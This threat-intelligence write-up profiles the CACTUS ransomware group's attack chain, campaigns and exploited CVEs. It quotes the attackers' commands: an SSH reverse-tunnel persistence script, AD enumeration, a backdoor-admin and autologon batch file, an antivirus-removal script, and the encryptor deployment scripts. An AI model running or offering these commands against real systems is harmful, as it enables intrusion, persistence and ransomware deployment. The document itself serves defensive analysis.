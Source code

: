 ## History 

The CACTUS ransomware is said to have emerged around March 2023. The group became known for exploiting vulnerabilities to gain initial access and maintain a presence within the organization's infrastructure.

There is little known information about the ransomware group, except that it emerged on the mentioned date and, following encryption, a text file named 'cAcTuS.readme.txt' would be created. Additionally, encrypted files were altered to the '.cts1' extension, and data exfiltration and victim extortion were conducted through the use of the service known as Tox.

As mentioned earlier, the ransomware especially exploits vulnerabilities in VPNs, also utilizing obfuscation techniques to conceal its activities, such as employing UPX and utilizing encryption algorithms like OpenSSL, AES OCB, ChaCha20_Poly1305, system reinitializations, and others.

![image](https://github.com/crocodyli/ThreatActors-TTPs/assets/113185400/bc3f3613-8ede-4d4e-bc84-73c9348ee2b3)


## Ransomware Cactus Attack Chain

**INITIAL ACCESS**
For Initial Access, the ransomware group exploits known vulnerabilities in VPN devices, followed by the creation of an SSH backdoor that facilitates access for the actor and manages to persist within the organization's infrastructure.

In these invasions through vulnerable VPN devices, the actors exploited the use of VPN service accounts and then used the following command to set up an SSH server to maintain persistent access, using scheduled tasks. The scheduled task is named 'Updates Check Task' and runs every 5 minutes, executed as SYSTEM.

|     echo off   %programdata%\sshd\ssh-keygen -f %programdata%\sshd\config\id_rsa -t rsa -N   "" icacls %programdata%\sshd\config\keys\id_rsa /inheritance:r   icacls %programdata%\sshd\config\keys\id_rsa /grant:r   "%username%":"(R)" icacls   %programdata%\sshd\config\id_rsa /inheritance:r icacls   %programdata%\sshd\config\id_rsa /grant:r   "%username%":"(R)" schtasks.exe /create /sc minute /mo 1   /tn "SSH Server" /rl highest /np /tr "%programdata%\sshd\sshd.exe   -f %programdata%\sshd\config\sshd_config" schtasks.exe /create /sc   minute /mo 1 /tn "SSH Key Exchange" /rl highest /np /tr   "%programdata%\sshd\ssh.exe -i %programdata%\sshd\config\keys\id_rsa -N   -R 22682:127.0.0.1:2222 -o StrictHostKeyChecking=no -o ServerAliveInterval=60   -o ServerAliveCountMax=15 root@    |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

**DISCOVERY**
Within the organization's network, the threat actor initiates the Discovery process, using the "SoftPerfect Network Scanner (netscan)" software to identify other types of devices.

Additionally, some PowerShell commands are executed for network enumeration, such as running a command to view Windows events with ID 4624 to identify user accounts, and conducting pings on other remote devices.

|     >>> Get-ADComputer   -Filter * -Properties * \| select ipv4Address > ips.txt     >>> Get-ADUser -   Filter * -Properties * > users.txt     >>> Get-Eventlog   -LogName Security -InstanceID 4624 \| Sort-Object -Property Time -Descending \|   Select-Object -Property Time -ExpandProperty Message >   c:\users\public\ad.txt     >>> ping    |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

The response of these commands is saved in a text file on the machine and used later by the ransomware payload for encryption. Another file that can be used by the actors is known as "PSnmap.ps1," which would be similar to NMAP for PowerShell, and is executed to identify other assets on the network.

**PERSISTENCE**
Next, aiming to implement persistence in the organization's environment, the threat actor creates several methods of remote access. Among them, the use of legitimate tools such as Splashtop, AnyDesk, and SuperOps RMM was identified, along with the use of Cobalt Strike and Chisel (a SOCKS5 proxy tool).

The Chisel tool is used to provide covert communications to the threat actor's C2, by tunneling traffic through firewalls, thereby allowing the download of additional scripts and tools.

**PRIVILEGE ESCALATION**
To obtain the necessary credentials for execution and lateral movement, the threat actor typically tries to extract credentials from users' web browsers and manually searches the disk for files containing passwords. The group may also attempt to extract credentials from LSASS to use them in privilege escalation. A batch script (bat) is executed and used to add privileged accounts to remote terminals.

|     @echo off     net user Adm1nBac   P@ssW0dDP@ssW /add     net user Adm1nBac   /active:yes     net localgroup   Administrators Adm1nBac /add     bcdedit /set {default}   safeboot minimal     reg add   "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   LegalNoticeText /t REG_SZ /d "" /f     reg add   "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   LegalNoticeCaption /t REG_SZ /d "" /f     reg add   "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v   LegalNoticeText /t REG_SZ /d "" /f     reg add   "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v   LegalNoticeCaption /t REG_SZ /d "" /f     reg add   "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   AutoAdminLogon /t REG_SZ /d 1 /f     reg add   "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   DefaultUserName /t REG_SZ /d Adm1nBac /f     reg add   "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   DefaultPassword /t REG_SZ /d P@ssW0dDP@ssW /f     reg add   "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v   AutoLogonCount /t REG_DWORD /d 1 /f     reg add   "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v   "*!test" /t REG_SZ /d "C:\windows\f2.bat" /f     shutdown -r -f -t 5     del "%~f0"    |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

After the threat actor manages to establish the level of access, they execute a batch script (bat) that utilizes msiexec to uninstall common antivirus software through the software's GUID.

|     TASKKILL /F /IM msiexec.exe     msiexec.exe /x   {3E8909A1-55FD-46C4-8FC0-604313331AA2} /QN /norestart     msiexec.exe /x   {36E5BC45-019B-49A5-A722-E64FF83AE375} /QN /norestart     msiexec.exe /x   {9B5749A2-35AE-435C-BF34-51884160AB09} /QN /norestart     <…snip…>     c:\windows\BEST_uninstallTool.exe   /bdparams     del "%~f0"    |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

**LATERAL MOVEMENT**
Lateral movement was performed using valid accounts or those created through Remote Desktop Protocol (RDP) connections. Additionally, the Super Ops tool was also utilized for this purpose.

**EXECUTION**
As identified in other ransomware operations, this group also attempts data exfiltration, aiming for double extortion of the victim. For this purpose, the group used the Rclone tool to automate data exfiltration.

After the data exfiltration, the threat actor utilizes a script previously identified in BlackBasta ransomware operations, known as "TotalExec.ps1". This script uses PsExec to automate the deployment of the encryptor, in this case, the f1.bat script.

|     powershell.exe -ex bypass   -nop -file totalexec.ps1 -CMD c:\windows\f1.bat -ACC .\admin1234 -SECR   Pa$$w0rd12321 -EXE f1.bat,f2.bat,.7z,7.exe -LIST ips.txt -JOBS 10 -CHUNK 10   -WAIT 5    |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

This script is deployed initially to create an administrator user account, which then adds a second script called f2.bat to be automatically executed at the machine level before restarting the device. The f2.bat script utilizes the 7zip tool to extract the ransomware binary and then executes it.

|     @echo off     SETLOCAL EnableExtensions     bcdedit /deletevalue   {default} safeboot     C:\Windows\7.exe x   C:\Windows\.7z -p1234 -o"C:\Windows"     del C:\Windows\7.exe     del C:\Windows\.7z     C:\Windows\.exe -i     SET EXE=.exe     :Running     FOR /F %%x IN ('tasklist /NH   /FI "IMAGENAME eq %EXE%"') DO IF NOT %%x == %EXE% (       ECHO %EXE% is Not Running       GOTO notRunning     ) ELSE (       ECHO %EXE is running     timeout /t 10      GOTO Running     )     ...     :notRunning       ECHO %EXE% is Not Running     del C:\Windows\.exe     shutdown -r -t 5 -c   "Computer Will Now Restart In NORMAL MODE..."     del "%~f0"    |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

The binary uses the victim's individual ID for negotiations, utilizing a regular expression (regex). Additionally, the executable is compressed with UPX and has 3 main execution modes controlled by command-line arguments.

The "-s" argument focuses on maintaining persistence, where it will self-copy to C:\ProgramData\<victim ID>.exe. The ransomware then creates a configuration file encoded in hexadecimal and packed with unwanted data in C:\ProgramData\ntuser.dat, containing the path to the original .exe.

After the file creation, the ransomware creates and executes a scheduled task that runs the command C:\ProgramData\<victim ID>.exe -r.

After encryption, a text file regarding the ransom note is created on the victim's device, containing the following content:

![image](https://github.com/crocodyli/ThreatActors-TTPs/assets/113185400/a4366658-ea24-4179-a738-4115af212482)


**IDENTIFIED CAMPAIGNS**

In December 2023, Microsoft warned that the actors behind the Ransomware Cactus were using malvertising as a method of infecting victims.

According to Microsoft, a threat actor known as STORM-0216 received transfers from Qakbot operators, and as a result, began using different malware to gain initial access after the Qakbot operation was removed. One of the observed campaigns, known as Danabot, was involved in collecting user credentials and other information, sending the data to the C2. This activity, tracked by Microsoft, led the threat actor to use Ransomware Cactus to encrypt the data, linking the use of Danabot through malvertising techniques.

![image](https://github.com/crocodyli/ThreatActors-TTPs/assets/113185400/327e49f2-bb83-4ce9-a61b-d40e06567a3b)

**EXPLOITED CVEs**

Several campaigns utilized by Ransomware Cactus were observed, such as exploiting security flaws in the cloud analytics and business intelligence platform known as Qlik Sense.

The exploitation was identified by researchers at Arctic Wolf, who stated that the group was likely exploiting the vulnerabilities:

- CVE-2023-41265, with a score of 9.9.
- CVE-2023-41266, with a score of 6.5.
- CVE-2023-48365, with a score of 9.9.

It is worth mentioning that CVE-2023-48365 is the result of an incomplete patch for CVE-2023-41265, which, along with CVE-2023-41266, was disclosed by Praetorian at the end of August 2023.








































